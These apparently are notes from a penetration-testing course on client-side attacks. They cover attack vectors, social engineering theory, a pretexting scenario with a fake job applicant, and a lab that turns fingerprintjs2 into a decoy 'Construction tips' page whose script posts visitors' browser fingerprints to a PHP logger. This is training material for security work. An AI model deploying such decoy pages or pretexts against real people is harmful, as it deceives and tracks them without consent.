




# Client-Side Attacks

## Course Introduction

### Course Topic Overview

- Introduction to Client-Side Attacks
- Client-Side Information Gathering and Fingerprinting
- Social Engineering
	- Introduction to Social Engineering Techniques
	- Introduction to Pretexting Techniques
	- Phishing (with GoPhish)
- Development and Weaponization 
	- VBA Macro Development (Manual)
	- Weaponizing VBA Macros (with Metasploit)
	- VBA PowerShell Dropper
	- VBA Reverse Shell Macro (with Powercat)
	- Using ActiveX Controls for Macro Execution
	- Pretexting Phishing Documents (with office-phish-templates)
	- Automating Macro Development (Manual and with MacroPack)
	- HTML Application (HTA) Attacks (with MSFvenom)
- Delivery and Execution
	- File Smuggling with HTML and JavaScript (with MSFvenom)
	- Initial Access via Spear Phishing Attachment (with MSFvenom)
	- Client-Side Black-Box Penetration Test (with Nmap, MSFvenom, Metasploit)
- Browser Attacks
	- Browser-Based Attacks (with BeEF)

### Prerequisites

- Knowledge of the penetration testing lifecycle
- Basic familiarity with Windows and Linux
- Basic familiarity with the Metasploit Framework

### Learning Objectives

- You will have an understanding of what Client-Side attacks are and the various types of client-side attacks utilized for initial access.
- You will be able to perform client-side information and fingerprinting in order to identify key info regarding a target's client-side configuration (browser, OS, etc.).
- You will have a solid understanding of what Social Engineering is, the types of Social Engineering attacks used and the role of pretexting in successful social engineering campaigns.
- You will be able to plan, deploy and manage phishing exercises/campaigns with tools like GoPhish.
- You will have an understanding of what resource development and weaponization are in terms of client-side attacks.
- You will be able to develop your own VBA macros for initial access.
- You will have the ability to leverage functionality like ActiveX Controls to control/facilitate macro execution in documents.
- You will be able to develop and customize your own Macro enabled MS Office documents for use in obtaining initial access.
- You will be able to leverage HTML Applications for initial access.

---
---

## Introduction to Client-Side Attacks

### Client-Side Attacks - Theory

#### Client-Side Attacks

Client-side attacks refer to <u>techniques and tactics used by attackers to exploit vulnerabilities or misconfigurations in client-side software or the systems accessed by users/employees of a target organization</u>.

The objectives of these attacks involve compromising end-user devices, applications or behaviours in order <u>to gain initial access to target system(s)</u>.

In the context of penetration testing and red teaming, client-side attacks aim to simulate/emulate real-world threats and assess an organization's security posture by targeting the weakest link in the security chain: **employees**.

Client-side attacks typically <u>involve/require some form of user/employee interaction and user deception or manipulation in order to get the client-side software to execute the malicious code/payload</u>.

These attacks are substantially <u>more dangerous than server-side attacks as they do not require direct access to the target system or target network</u>.

In client-side attacks, <u>attackers deliver the malicious code/payloads via standard (trusted) delivery mechanisms like email, USBs, compromised websites, etc</u>.

#### Advantages of Client-Side Attacks

Client-side attacks are attractive to attackers for the following reasons:

- Larger/Wider Attack Surface: <u>End-user devices</u>, such as desktop computers, laptops, smartphones, and tablets, <u>are ubiquitous in modern organizations, providing a large attack surface for exploitation</u>.
- User Interaction: Client-side attacks <u>leverage human vulnerabilities, such as curiosity, trust, or ignorance</u>, to trick users into executing malicious code or divulging sensitive information.
- Less Stringent Security Controls: <u>End-user devices may have less robust security measures compared to servers or network infrastructure</u>, making them more susceptible to exploitation.
- Potential for Lateral Movement: <u>Once initial access is achieved through a client-side attack, attackers may pivot to other systems or resources within the network</u> to escalate privileges, achieve persistence, or exfiltrate data.

#### Client-Side vs Server-Side Attacks

|               | Client-Side Attacks                                                                                                                                                                                                                                   | Server-Side Attacks                                                                                                                                                                                                                |
| ------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Target**    | Target end-user devices, applications, or behaviors. These attacks exploit vulnerabilities in software or systems accessed by users, such as web browsers, email clients, or office applications.                                                     | Target servers, network infrastructure, or backend systems. These attacks focus on exploiting vulnerabilities in servers, databases, web applications, or services hosted on remote servers.                                       |
| **Objective** | Aim to compromise end-user devices, steal sensitive information, or establish a foothold within an organization's network. These attacks often leverage social engineering tactics to trick users into performing actions that facilitate the attack. | Aim to gain unauthorized access to servers or backend systems, exfiltrate sensitive data, or disrupt services. These attacks may exploit vulnerabilities in server software, misconfigurations, or insecure server-side scripting. |
| **Execution** | Typically involve the delivery of malicious content or payloads to end-user devices through channels such as phishing emails, malicious websites, or infected documents.                                                                              | Exploit vulnerabilities or weaknesses in server-side software, services, or configurations.                                                                                                                                        |
| **Examples**  | Phishing, drive-by downloads, social engineering, malicious attachments, exploit kits targeting vulnerabilities in client-side software.                                                                                                              | SQL injection, cross-site scripting (XSS), server-side request forgery (SSRF), remote code execution (RCE), server misconfigurations, brute-force attacks against server authentication mechanisms.                                |

#### How Client-Side Attacks Work

Let's consider a fictitious example of a client-side attack targeting an organization called "Acme Corp.".

In this fictitious example, the client-side attack begins with reconnaissance and target identification, followed by payload development, delivery, and execution.

The attacker leverages social engineering tactics and exploits vulnerabilities in client-side software to gain unauthorized access to Acme Corp.'s network, ultimately achieving their malicious objectives.

Here's how the attack might unfold from reconnaissance to payload delivery:

1. **Reconnaissance**
	- The attacker begins by conducting reconnaissance on Acme Corp. using publicly available information, social media profiles, company websites, and job postings.
	- The attacker identifies employees, their roles, and potential targets within the organization.
	- The attacker gathers information about Acme Corp.'s technology stack, email domains, and common software applications used by employees.

2. **Target Identification**
	- Based on reconnaissance findings, the attacker identifies specific individuals within Acme Corp. who are likely to have access to sensitive information or valuable assets.
	- The attacker selects potential targets for the client-side attack, such as employees in finance, human resources, or executive positions.

3. **Payload/Resource Development**
	- <u>The attacker develops a malicious document containing a payload, such as a Microsoft Word document with an embedded macro or a PDF file with a JavaScript exploit</u>.
	- The payload is <u>designed to exploit vulnerabilities in common software applications used by Acme Corp., such as Microsoft Office or Adobe Reader</u>.

4. **Payload Preparation**
	- <u>The attacker creates a convincing pretext for the payload delivery, such as crafting a phishing email masquerading as an important document from a trusted source</u>.
	- <u>The attacker sets up infrastructure to host the malicious document or payload, such as a compromised website or a temporary file-sharing service</u>.

5. **Payload Delivery**
	- <u>The attacker sends phishing emails to selected employees within Acme Corp., urging them to review the attached document or click on a link to access important information</u>.
	- <u>The phishing email may contain social engineering tactics to increase the likelihood of success</u>, such as urgency, fear, or curiosity.

6. **Payload Execution**
	- A targeted employee at Acme Corp. receives the phishing email and opens the malicious document or clicks on the provided link.
	- The embedded payload executes, exploiting vulnerabilities in the client-side software (e.g., Microsoft Office) to gain a foothold on the employee's device.
	- The attacker's payload establishes communication with a command-and-control (C2) server controlled by the attacker, enabling further interaction and control.

7. **Post-Exploitation**
	- With access to the employee's device, the attacker may perform post-exploitation activities, such as privilege escalation, lateral movement, or data exfiltration.
	- The attacker may escalate privileges to gain higher-level access within Acme Corp.'s network, moving laterally to compromise additional systems or resources.

### Client-Side Attack Vectors - Theory

#### What are Attack Vectors?

In the context of penetration testing, an attack vector refers to <u>a path or method used by an attacker to exploit vulnerabilities or weaknesses in a system, network, or application</u>.

Attack vectors are the specific avenues through which an attacker gains unauthorized access, achieves malicious objectives, or compromises the security of a target environment.

Penetration testers simulate these attack vectors to identify and assess vulnerabilities, measure the effectiveness of security controls, and provide recommendations for improving an organization's overall security posture.

#### Client-Side Attack Vectors

Here are some of the most common and effective client-side attack vectors used for initial access by attackers or penetration testers:

**Social Engineering**:
	- <u>Phishing Emails</u>: Deceptive emails with malicious attachments or links to trick users into clicking or downloading malware.
	- <u>Social Media Engineering</u>: Creating fake profiles to connect with users and deceive them into clicking on malicious links or downloading infected content.
	- <u>Pretexting, Baiting, Tailgating</u>: Various tactics used to manipulate users into divulging sensitive information or performing actions that facilitate the attack.

**Malicious Documents/Payloads**:
	- <u>Crafted documents</u> (e.g., Microsoft Office files, PDFs) with embedded macros, scripts, or exploits that execute malicious code upon opening.

**Drive-by Downloads**:
	- <u>Hosting</u> malicious content or exploit kits <u>on compromised or malicious websites</u> to automatically download and execute malware when users visit the site.

**Watering Hole Attacks**:
	- Compromising <u>websites</u> frequented by the target audience and <u>injecting malicious code or links to infect visitors' systems</u>.

**USB-based Attacks**:
	- <u>Distributing malware-infected USB drives</u> or devices in public spaces or targeted environments to automatically execute malware when users plug them into their computers.

**Exploit Kits**:
	- <u>Using automated kits</u> to target vulnerabilities in web browsers, plugins, or other client-side software, streamlining the process of delivering and executing malicious payloads.

**Browser Exploitation**:
	- <u>Exploiting vulnerabilities in web browsers</u> or their components (e.g., plugins, extensions) to execute arbitrary code or perform actions on the victim's system.

---

## Reconnaissance

### Client-Side Information Gathering - Theory

#### Client-Side Information Gathering

When performing a client-side attack, the success of the attack will come down to the accuracy of the information you gather about your target(s) and the client-side software and configuration running on the target system(s).
In order for you to successfully exploit a client-side vulnerability, or misconfiguration, you <u>must first know what client-side software is running</u> on a target system(s).
This is where client-side information gathering and fingerprinting comes into play.

Just like any traditional penetration test, information gathering can be broken down into two categories, depending on the nature of the interaction with the target(s):
- **Passive** Client Information Gathering: Passive client information gathering involves <u>collecting data about target users, systems, or networks without directly interacting with them</u>. This approach aims to gather information passively from publicly available sources through techniques like OSINT.
- **Active** Client Information Gathering: Active client information gathering involves <u>interacting directly with target systems, applications, or users to gather data</u> about their client-side configurations, vulnerabilities, or behaviors. This approach aims to gather information through direct interaction, such as client/browser fingerprinting, banner grabbing, and social engineering.

#### Passive Client Information Gathering Techniques

**Open Source Intelligence (OSINT)**

Examples: Searching social media platforms (e.g., LinkedIn, Twitter) for employee profiles, company information, or job postings.
Browsing public forums or websites for discussions about the organization or its technologies.

Tools: Google Dorks for advanced search queries, Maltego for data visualization and link analysis, theHarvester for email harvesting.

**Search Engine Reconnaissance**

Examples: Using advanced search queries on search engines like Google to discover publicly available information about target individuals, organizations, or systems.

Tools: Google Search operators, Shodan search engine, DuckDuckGo.

#### Active Client Information Gathering Techniques

**Client Fingerprinting**

Client fingerprinting is a technique used to gather information about a user's web browser and software stack in order to aid in the development of tailor-made (client-specific) payloads for initial access.
In the context of client-side information gathering, client fingerprinting can be used to identify key information about the client-side software running on the target(s) system. For example, browser and browser version, OS, and system architecture, etc.

**Social Engineering**

Examples: Engaging with target individuals or employees through phone calls, emails, or other communication channels to gather sensitive information, credentials, or access permissions.

Tools: Social engineering toolkits like SET (Social-Engineer Toolkit), PhishMe, BeEF (Browser Exploitation Framework).

##### Active Client Information Gathering Example

**Scenario: Leveraging Social Engineering for Active Client Information Gathering**

Alice, a penetration tester, is targeting a specific company, Acme Corporation, to gather information about their internal systems and software configurations.
She has decided to use client-side attacks to gain initial access to the target network.
Alice plans to use social engineering techniques to extract valuable information from the company’s employees regarding their client-side software without raising suspicion.

1. **Research and Preparation:**
    - Alice conducts reconnaissance on Acme Corporation’s website and discovers a job opening for a position relevant to her cover story. She learns that the company has an online resume upload functionality for job applications.

2. **Initiating Contact:**
    - Alice creates a fictitious persona named Sarah Johnson and submits a resume to Acme Corporation’s website using the resume upload feature.
    - The resume contains an embedded macro that triggers an error when opened, simulating a corrupted document.

3. **Response from the Company:**
    - Acme Corporation's HR department receives Sarah Johnson's resume but encounters an issue when attempting to open the document.
    - Suspecting a technical problem, they reach out to Sarah via email, informing her of the issue and requesting a re-submission or clarification.

4. **Exploiting the Opportunity:**
    - Alice, posing as Sarah, receives the email from Acme Corporation's HR department. Seizing the opportunity, she responds promptly, expressing concern and offering assistance.
    - She then asks a seemingly innocuous question: "Could you please let me know the version of Microsoft Word your team is using? I want to ensure compatibility with future submissions."

5. **Information Gathering:**
    - Acme Corporation's HR representative, unaware of the malicious intent, responds to Sarah's inquiry, providing details about the company's Microsoft Word version.

6. **Analysis and Resource Development:**
    - Alice, now equipped with information about Acme Corporation's Microsoft Word version, uses this information to identify potential vulnerabilities or compatibility issues.
    - She may also use it to tailor future social engineering attacks or craft malicious payloads targeting specific software versions (malicious Word documents).

### Client Fingerprinting - Theory

#### Client Fingerprinting

Client fingerprinting is an active client information gathering technique used to gather information about a target system's web browser and underlying operating system in order to aid in the development of tailor made (client specific) payloads for initial access.
Client fingerprinting plays an important role in the success of a client-side attack as it provides the attacker with accurate information of the client-side software running on the target’s/employee’s computer.
In the context of client-side information gathering, it allows us to identify key information about the client-side software running on the target(s) system. For example, browser and browser version, OS and system architecture etc.

Information about the target employee’s computer is typically not publicly accessible, and as a result, we must obtain this information from the target system itself. 
This will involve utilizing social engineering techniques like Phishing to coerce the target employee into clicking a link to a web page that we control.
This web server will typically be configured to run a script that obtains information like the browser version and OS version from the browsers of users who visit the site.  

#### Browser Fingerprinting

Browser fingerprinting is an active information gathering technique that leverages client-side scripting languages like JavaScript to extract information about the target’s browser and underlying operating system.
In order to perform this technique, you will need to purchase a domain and set up a fictitious web page that runs a specific JavaScript script/code when users visit the webpage.
This JavaScript code can be embedded into the homepage of the website and should log/send the browser fingerprint of users who visit the web page.  

In order for this client-side information gathering technique to work, the target’s/employee’s browser must be able to run the typical client-side code used in modern web pages. For example, JavaScript.
All modern web browsers support the execution of client-side JavaScript, however, some privacy-focused browsers have the ability to block the execution of JavaScript code unless specified otherwise.

Our primary objective is to identify the following information:
- Web Browser
- Web Browser Version
- Plugins/Extensions
- Underlying OS information (OS, OS Version, System architecture etc.)

##### Browser Fingerprinting Tools/Libraries

We can easily generate our browser fingerprinting webpage by leveraging existing JavaScript libraries like fingerprints2.
fingerprints2 is a modern and flexible browser fingerprinting library that enumerates a lot of useful information about a browser and the underlying operating system. 
You can learn more about fingerprints2 here: [https://github.com/LukasDrgon/fingerprints2](https://github.com/LukasDrgon/fingerprints2)

### Browser Fingerprinting - Lab

#### Lab Solution

`sudo systemctl start apache2`, `sudo systemctl status apache2`

Display network connections to verify the server is listening on port 80.

`netstat -antp`:
```
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:37107         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -  ←
```

`firefox 127.0.0.1:80 &`

`cd /var/www/html`, `ls`, `sudo git clone https://github.com/LukasDrgon/fingerprintjs2.git`, `ls -la`:
```
total 12
drwxr-xr-x 3 root root 4096 Jul 15 04:21 .
drwxr-xr-x 3 root root 4096 Feb 25 10:43 ..
drwxr-xr-x 6 root root 4096 Jul 15 04:20 fingerprintjs2 ←
```

`firefox 127.0.0.1:80/fingerprintjs2 &`:
```
Detailed information:

user_agent = Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
language = en-US
color_depth = 24
pixel_ratio = 0.8955223880597015
hardware_concurrency = 2
resolution = 2144,1189
available_resolution = 2144,1150
timezone_offset = 240
session_storage = 1
local_storage = 1
indexed_db = 1
cpu_class = unknown
navigator_platform = Linux x86_64
do_not_track = unspecified
regular_plugins = PDF Viewer::Portable Document Format::application/pdf~pdf,text/pdf~pdf,Chrome PDF Viewer::Portable D
canvas = canvas winding:yes~canvas fp:data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAB9AAAADICAYAAACwGnoBAAAgA
webgl = data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAASwAAACWCAYAAABkW7XSAAANGklEQVR4Xu2dbYglRxWGu3dXgoioP4
adblock = false
has_lied_languages = false
has_lied_resolution = false
has_lied_os = false
has_lied_browser = false
touch_support = 0,false,false
js_fonts = Arial,Arial Narrow,Bitstream Vera Sans Mono,Bookman Old Style,Century,Century Schoolbook,Courier,Cou
```

`ls -la ./finerprintjs2`:
```
total 180
drwxr-xr-x 6 root root  4096 Jul 15 04:20 .
drwxr-xr-x 3 root root  4096 Jul 15 04:21 ..
-rw-r--r-- 1 root root   419 Jul 15 04:20 bower.json
-rw-r--r-- 1 root root  1602 Jul 15 04:20 CONTRIBUTING.md
drwxr-xr-x 2 root root  4096 Jul 15 04:20 dist
-rw-r--r-- 1 root root   286 Jul 15 04:20 .eslintrc
-rw-r--r-- 1 root root  1946 Jul 15 04:20 FAQ.md
-rw-r--r-- 1 root root 61123 Jul 15 04:20 fingerprint2.js
drwxr-xr-x 3 root root  4096 Jul 15 04:20 flash
drwxr-xr-x 8 root root  4096 Jul 15 04:20 .git
-rw-r--r-- 1 root root    45 Jul 15 04:20 .gitignore
-rw-r--r-- 1 root root   666 Jul 15 04:20 gulpfile.js
-rw-r--r-- 1 root root  3064 Jul 15 04:20 index.html ←
-rw-r--r-- 1 root root   856 Jul 15 04:20 ISSUE_TEMPLATE.md
-rw-r--r-- 1 root root   804 Jul 15 04:20 package.json
-rw-r--r-- 1 root root  7022 Jul 15 04:20 README.md
drwxr-xr-x 3 root root  4096 Jul 15 04:20 specs
-rw-r--r-- 1 root root    59 Jul 15 04:20 .travis.yml
-rw-r--r-- 1 root root 47549 Jul 15 04:20 yarn.lock
```

`cat ./fingerprintjs2/index.html`:
```html
<!doctype html>
<html>
<head>
  <title>Fingerprintjs2 test</title>
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <script>
    (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
    (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
    m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
    })(window,document,'script','//www.google-analytics.com/analytics.js','ga');

    ga('create', 'UA-42202458-2', 'auto');
    ga('send', 'pageview');
  </script>
  <script src="https://code.jquery.com/jquery-1.11.3.min.js"></script>
  <style>
    body{
      font-family: sans-serif;
      max-width: 48em;
      margin: auto;
      padding: 0 5%;
      background: #222;
      color: #fff;
    }

    h1 {
      margin: 2em 0 0;
    }

    p {
      font-size: 1.2em
    }

    button {
      border: none;
      color: #fff;
      font-size: 1.2em;
      background: #27e;
      padding: 0.5em 0.75em 0.6em;
      border-radius: 3px;
      box-shadow: 0 3px 0 #05c;
      outline: none;
    }

    button:active {
      transform: translateY(3px);
      box-shadow: none;
    }

    strong {
      display: block;
      letter-spacing: 1px;
      word-wrap: break-word;
    }

    @media (min-width: 32em) {
      h1 {
        font-size: 4em;
      }

      strong {
        font-size: 1.5em;
      }
    }
  </style>
</head>
<body>
  <div id="container"></div>


  <h1>Fingerprintjs2</h1>

  <p>Your browser fingerprint: <strong id="fp"></strong></p>
  <p><code id="time"/></p>
  <p><span id="details"/></p>
  <button type="button" id="btn">Get my fingerprint</button>

  <a href="https://github.com/Valve/fingerprintjs2"></a>

  <script src="fingerprint2.js"></script>
  <script>
    $("#btn").on("click", function () {
      var d1 = new Date();
      var fp = new Fingerprint2();
      fp.get(function(result, components) {
        var d2 = new Date();
        var timeString = "Time took to calculate the fingerprint: " + (d2 - d1) + "ms";
        var details = "<strong>Detailed information: </strong><br />";
        if(typeof window.console !== "undefined") {
          console.log(timeString);
          console.log(result);
          for (var index in components) {
            var obj = components[index];
            var value = obj.value;
            var line = obj.key + " = " + value.toString().substr(0, 100);
            console.log(line);
            details += line + "<br />";
          }
        }
        $("#details").html(details);
        $("#fp").text(result);
        $("#time").text(timeString);
      });
    });
  </script>
</body>
</html>
```

`sudo mousepad ./fingerprintjs2/index.html`:
```html
<!doctype html>
<html>
<head>
  <title>Construction tips</title>
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <script>
    (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
    (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
    m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
    })(window,document,'script','//www.google-analytics.com/analytics.js','ga');

    ga('create', 'UA-42202458-2', 'auto');
    ga('send', 'pageview');
  </script>
  <script src="https://code.jquery.com/jquery-1.11.3.min.js"></script>
  <!--
  <style> ... </style>
  -->
</head>
<body>
  <div id="container"></div>


  <h1>Construction tips</h1>

  <p>Click here to get the latest construction tips: <strong id="fp"></strong></p>
  <p><code id="time"/></p>
  <p><span id="details"/></p>
  <button type="button" id="btn">Get Construction Tips</button>
<!--
  <a href="https://github.com/Valve/fingerprintjs2"></a>
-->
  <script src="fingerprint2.js"></script>
  <script>
    $("#btn").on("click", function () {
      var d1 = new Date();
      var fp = new Fingerprint2();
      fp.get(function(result, components) {
        var d2 = new Date();
        var timeString = "Time took to calculate the fingerprint: " + (d2 - d1) + "ms";
        var details = "Detailed information: \n";
        if(typeof window.console !== "undefined") {
          console.log(timeString);
          console.log(result);
          for (var index in components) {
            var obj = components[index];
            var value = obj.value;
            var line = obj.key + " = " + value.toString().substr(0, 100);
            console.log(line);
            details += line + "\n";
          }
        }
        $("#details").html(details);
        $("#fp").text(result);
        $("#time").text(timeString);

		<!-- Create an XMLHttpRequest object to send the fingerprint details, result, and time string to the fp.php file on the server using a POST request, with the content type set to text/plain. -->
		var xmlhttp = new XMLHttpRequest();
		xmlhttp.open("POST", "fp.php");
		xmlhttp.setRequestHeader("Content-Type", "application/txt");
		xmlhttp.send(details + result + timeString);
      });
    });
  </script>
</body>
</html>
```

`sudo vim ./fingerprintjs2/fp.php`:
```php
<?php
$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
$data .= file_get_contents('php://input');
$data .= "---------------------------------\n\n";
file_put_contents('/var/www/html/fingerprintjs2/fingerprint.txt', print_r($data, true), FILE_APPEND | LOCK_EX);
?>
```

`sudo chown www-data:www-data ./fingerprintjs2/`

`sudo systemctl restart apache2`

`firefox 127.0.0.1:80/finegrprintjs2`:
```
Detailed information: user_agent = Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 language = en-US color_depth = 24 pixel_ratio = 0.8955223880597015 hardware_concurrency = 2 resolution = 2144,1189 available_resolution = 2144,1150 timezone_offset = 240 session_storage = 1 local_storage = 1 indexed_db = 1 cpu_class = unknown navigator_platform = Linux x86_64 do_not_track = unspecified regular_plugins = PDF Viewer::Portable Document Format::application/pdf~pdf,text/pdf~pdf,Chrome PDF Viewer::Portable D canvas = canvas winding:yes~canvas fp:data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAB9AAAADICAYAAACwGnoBAAAgA webgl = data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAASwAAACWCAYAAABkW7XSAAANGklEQVR4Xu2dbYglRxWGu3dXgoioP4 adblock = false has_lied_languages = false has_lied_resolution = false has_lied_os = false has_lied_browser = false touch_support = 0,false,false js_fonts = Arial,Arial Narrow,Bitstream Vera Sans Mono,Bookman Old Style,Century,Century Schoolbook,Courier,Cou 
```

`cat ./fingerprintjs2/fingerprint.txt`:
```
Client IP Address: 127.0.0.1
Detailed information: 
user_agent = Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
language = en-US
color_depth = 24
pixel_ratio = 0.8955223880597015
hardware_concurrency = 2
resolution = 2144,1189
available_resolution = 2144,1150
timezone_offset = 240
session_storage = 1
local_storage = 1
indexed_db = 1
cpu_class = unknown
navigator_platform = Linux x86_64
do_not_track = unspecified
regular_plugins = PDF Viewer::Portable Document Format::application/pdf~pdf,text/pdf~pdf,Chrome PDF Viewer::Portable D
canvas = canvas winding:yes~canvas fp:data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAB9AAAADICAYAAACwGnoBAAAgA
webgl = data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAASwAAACWCAYAAABkW7XSAAANGklEQVR4Xu2dbYglRxWGu3dXgoioP4
adblock = false
has_lied_languages = false
has_lied_resolution = false
has_lied_os = false
has_lied_browser = false
touch_support = 0,false,false
js_fonts = Arial,Arial Narrow,Bitstream Vera Sans Mono,Bookman Old Style,Century,Century Schoolbook,Courier,Cou
19f8fbd23264ca950e352b331daa8c1cTime took to calculate the fingerprint: 405ms---------------------------------
```

You can use the [WhatIsMyBrowser User Agent Parser](https://explore.whatismybrowser.com/useragents/parse/) to parse and understand user agent strings.

Here is an example.

Parse a User agent:
"Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"

Parsed Result:
- **Mozilla/5.0**: This part indicates the general compatibility and version information.
- **(X11; Linux x86_64; rv:109.0)**: This part contains platform details.
    - **X11**: The window system being used (in this case, X11).
    - **Linux x86_64**: The operating system and architecture (Linux 64-bit).
    - **rv:109.0**: The revision/version of the browser.
- **Gecko/20100101**: This part indicates the rendering engine (Gecko) and its build date.
- **Firefox/115.0**: This part specifies the browser name and version.

The parsed output simplifies the user agent string to indicate the browser (Firefox version 115) and the operating system (Linux). This information can be useful for understanding the client environment and tailoring the web experience accordingly.

---

## Social Engineering

### Introduction to Social Engineering - Theory

#### What is Social Engineering?

In the context of penetration testing and red teaming, social engineering is a technique used to manipulate individuals or employees within an organization to gain unauthorized access to sensitive information, systems, or facilities.

It exploits human psychology, trust, and vulnerabilities to deceive targets into performing actions that compromise security, either through information disclosure or by performing specific actions that may seem innocuous at first glance.

Social engineering attacks aim to bypass technical controls by targeting the weakest link in the security chain: the human element.

The premise of social engineering is to exploit the human element, in other words, putting people or employees in situations where they will rely on their base instincts and most common forms of social interaction like:

- The desire to be helpful
- The tendency to trust people
- The desire for approval
- The fear of getting in trouble
- Avoiding conflict or arguments

By preying on the human element of system access, most times, attackers do not have to navigate around the security perimeter of an organization.

Attackers/Pentesters just need to engage with employees inside the company to do their bidding for them.

Instead of spending countless hours trying to infiltrate systems/networks through traditional server-side attacks like brute-force attacks, attackers can leverage social engineering to yield information or facilitate the execution of malware inside the company network in a matter of minutes.

#### Social Engineering and Social Media

The advent and adoption of Social Networking as a form of communication has vastly improved the ability and effectiveness of attackers (likewise pentesters) to perform social engineering attacks as employees/targets can be easily contacted by anyone in the world with ease.

